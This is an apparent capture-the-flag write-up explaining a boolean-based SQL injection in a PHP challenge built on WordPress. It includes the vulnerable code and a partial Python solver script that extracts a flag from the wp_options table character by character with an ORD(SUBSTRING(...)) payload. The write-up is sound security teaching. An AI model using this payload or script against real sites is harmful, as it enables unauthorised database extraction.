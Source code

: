 I focus on the first IF Condition where the request contains the "func" parameter to perform SQL Injection. More or less the explanation of the code goes like this.

```php
if (isset($_GET['func'])) {

    $func = $_GET['func'];              // parameter 'func' contains 'filter_input'
    $input = $_GET['input'];            // paramter 'input' contains number '1'
    $fnl = $_GET['fnl'];                    // parameter ‘fnl’ is not used

    // If 'filter_input' === 'filter_input' and function 'filter_input' it exists {}
    if ($func === $bptm && function_exists($func)) {

       $locate = $func($input, 'locate');       // filter_input(INPUT_GET, ‘locate’)
       $fallback = $func($input, 'fallback');  // filter_input(INPUT_GET, ‘fallback’)
```

Okay, try to detect whether SQL Injection is valid or not by entering a Boolean based payload.
![Validate SQLi](/assets/img/Patchstack-S02E03-WCEU-2025/WhatIsMagic-validatesqli.png)

It can be seen from the evidence above that the results are valid, meaning that I can dump the flag using boolean based with the data:\
• Database: wordpress\
• Table: wp_options\
• Column: option_value\
• Where: option_name=’lmi’

**Exploit:**\
File solver.py:

```python
import requests
import time
from string import ascii_lowercase, ascii_uppercase, digits
from urllib.parse import *

URL = 'http://18.140.17.89:9170/wim.php'

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def boolean(self):
		flag = ""
		position = 1
		while "}" not in flag:
			for char in range(32, 127):

				# Dump Flag
				payload = f"1') OR ORD(SUBSTRING((SELECT option_value FROM wordpress.wp_options WHERE option_name='lmi'),{position},1)) = {char}-- -"
				params = {'func': 'filter_input', 'input': 1, 'locate': payload, 'fallback': ''}
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn